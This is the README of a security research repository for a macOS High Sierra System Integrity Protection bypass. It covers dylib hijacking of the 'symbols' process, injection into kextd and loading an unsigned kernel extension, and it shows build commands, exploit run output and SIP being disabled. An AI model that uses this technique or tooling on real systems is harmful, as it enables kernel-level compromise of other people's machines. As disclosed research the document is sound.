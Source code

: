 # macOS 10.13.x SIP bypass (kernel privilege escalation)

Works only on High Sierra, and requires root privilege. It can be chained with my previous local root exploits.

## Slides

https://conference.hitb.org/hitbsecconf2019ams/materials/D2T2%20-%20ModJack%20-%20Hijacking%20the%20MacOS%20Kernel%20-%20Zhi%20Zhou.pdf

* `symbols` has `com.apple.system-task-ports` entitlement thus it can get the task port of `kextd` via `task_for_pid`
* Trigger dylib hijack to load evil payload in process `symbols` and steal the entitlement and control `kextd`
* `kextd` / `kextutil` / `kextload` are `com.apple.rootless.kext-secure-management` entitled, with whom the they can send MKext request to XNU to load KEXT
* All the validation are checked in userland: code signature, root filesystem permission, User-Approved Kernel Extension Loading, KEXT staging. Just ask XNU to load our KEXT without code signature

## Build

First, grab the dependencies

```sh
git submodule init
git submodule update
```

Build [Unrootless.kext](https://github.com/LinusHenze/Unrootless-Kext)

```sh
pushd 3rd-party/Unrootless-Kext ; xcodebuild ; popd
```

Build kernel exploit

```sh
pushd libinj ; make ; popd; pushd kernel ; make ; popd
```

## Run

```
$ sudo ./kernel/bin/exp
Password:
2019-05-13 01:11:14.826 exp[666:7308] [LightYear] taytay pid: 668
2019-05-13 01:11:14.828 exp[666:7308] [LightYear] status: 0, pid 669
2019-05-13 01:11:14.892 symbols[669:7313] [LightYear] I am in symbols
2019-05-13 01:11:14.895 symbols[669:7313] [LightYear] inject /Users/test/Downloads/1/kernel/bin/Toolchains/XcodeDefault.xctoolchain/> usr/lib/libswiftDemangle.dylib to kextd
get task port (OK)
allocate stack (OK)
remote stack 0x10714d000
allocate code (OK)
remote code 0x1041e7000
write loader code (OK)
mark code as eXecutable (OK)
mark stack as RW (OK)
write params (OK)
create remote thread (OK)
So it's gonna be forever
```

Then try to load any unsigned KEXT

```
$ csrutil status
System Integrity Protection status: enabled.
$ codesign -dvvv "./3rd-party/Unrootless-Kext/build/Release/Unrootless.kext"
./3rd-party/Unrootless-Kext/build/Release/Unrootless.kext: code object is not signed at all
$ sudo kextload 3rd-party/Unrootless-Kext/build/Release/Unrootless.kext
$ csrutil status
System Integrity Protection status: disabled.
```
